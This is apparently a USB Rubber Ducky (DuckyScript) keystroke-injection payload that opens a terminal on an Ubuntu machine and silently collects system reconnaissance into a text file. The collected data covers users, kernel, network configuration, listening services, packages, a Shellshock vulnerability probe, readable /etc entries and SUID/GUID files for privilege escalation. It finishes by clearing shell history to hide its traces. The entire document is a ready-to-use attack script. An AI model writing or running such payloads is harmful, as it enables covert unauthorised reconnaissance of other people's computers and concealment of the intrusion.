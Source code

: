 REM The following script is an information gatherer script which collects info from a running Ubuntu OS and saves it to a file named "info_gathering.txt". 
REM The info that the script retrieves is the logged in username, the distribution and kernel version of the running system, the applicability of the shellsock bug, the mounted filesystems, information which is related to the Network adapters, availability of development tools (python, g++), contents of the hosts file and the listening TCP/UDP connections. Apart from that it attempts to find readable folders inside the /etc folder and also prints the SUID and GUID files.

REM Info gathering Ubuntu 1.0 Script issues OS info gathering commands in terminal - by Captain_Harlock, Improved by Thecakeisgit ;D
DELAY 3000
CTRL ALT t
DELAY 1500
STRING clear
DELAY 10
ENTER
DELAY 50
STRING echo "Logged in user: " $USER > info_gathering.txt
ENTER
DELAY 50
STRING echo >> info_gathering.txt
DELAY 50
ENTER 
DELAY 50
STRING echo -n "Distribution Kernel Version: " >> info_gathering.txt
DELAY 50
ENTER
DELAY 50
STRING cat /etc/issue | cut -c1-13 >> info_gathering.txt
DELAY 50
ENTER
DELAY 50
STRING echo -n "uname results: " >> info_gathering.txt
DELAY 50
ENTER
DELAY 50
STRING uname -a >> info_gathering.txt
DELAY 50
ENTER
DELAY 100
STRING echo >> info_gathering.txt
DELAY 50
ENTER
DELAY 50
STRING echo "Shellsock Bug Vulnerability: " >> info_gathering.txt
DELAY 50
ENTER
DELAY 50
STRING env x='() { :;}; echo vulnerable' bash -c "echo this is a test" >> info_gathering.txt
DELAY 50
ENTER
DELAY 50
STRING echo >> info_gathering.txt
DELAY 50
ENTER
DELAY 50
STRING echo >> info_gathering.txt
DELAY 50
ENTER 
DELAY 50
STRING echo "Mounted filesystems: " >> info_gathering.txt
ENTER 
DELAY 50
STRING mount -l >> info_gathering.txt
DELAY 50
ENTER
DELAY 100
STRING echo >> info_gathering.txt
ENTER
DELAY 50 
STRING echo "Network Configuration: " >> info_gathering.txt
DELAY 50
ENTER
DELAY 50
STRING ifconfig -a | grep 'Link\|inet' >> info_gathering.txt
ENTER
DELAY 50
STRING echo >> info_gathering.txt
ENTER
DELAY 50
STRING echo "Print Hosts: " >> info_gathering.txt
ENTER
DELAY 50
STRING cat /etc/hosts >> info_gathering.txt
ENTER
DELAY 50
STRING echo "Print ARP: " >> info_gathering.txt
ENTER
DELAY 50 
STRING arp >> info_gathering.txt
ENTER
DELAY 50 
STRING echo >> info_gathering.txt
ENTER
DELAY 50
STRING echo "Development tools availability: " >> info_gathering.txt
ENTER
DELAY 50
STRING which gcc >> info_gathering.txt
ENTER
DELAY 50
STRING which g++ >> info_gathering.txt
ENTER
DELAY 50
STRING which python >> info_gathering.txt
ENTER
DELAY 50
STRING echo >> info_gathering.txt
ENTER
DELAY 50
STRING echo "Print TCP/UDP Listening Services: " >> info_gathering.txt
ENTER
DELAY 50
STRING netstat -tunlpe >> info_gathering.txt
ENTER
DELAY 300
STRING echo >> info_gathering.txt
ENTER
DELAY 50
STRING echo "Installed Packages: " >> info_gathering.txt
DELAY 50
ENTER
DELAY 200
STRING dpkg -l >> info_gathering.txt
ENTER
DELAY 300
STRING echo >> info_gathering.txt
ENTER
DELAY 50
STRING echo "Find Readable Folders in /etc: " >> info_gathering.txt
ENTER
DELAY 50
STRING find /etc -user $(id -u) -perm -u=r -o -group $(id -g) -perm -g=r -o -perm -o=r -ls 2> /dev/null >> info_gathering.txt
ENTER
DELAY 500
STRING echo >> info_gathering.txt
ENTER
DELAY 50
STRING echo "Find SUID and GUID files" >> info_gathering.txt
ENTER
DELAY 50
STRING find / -type f -perm -u=s -o -type f -perm -g=s -ls  2> /dev/null >> info_gathering.txt
DELAY 50
ENTER
DELAY 15000
STRING history -c
DELAY 50
ENTER
DELAY 50
STRING exit
DELAY 50
ENTER
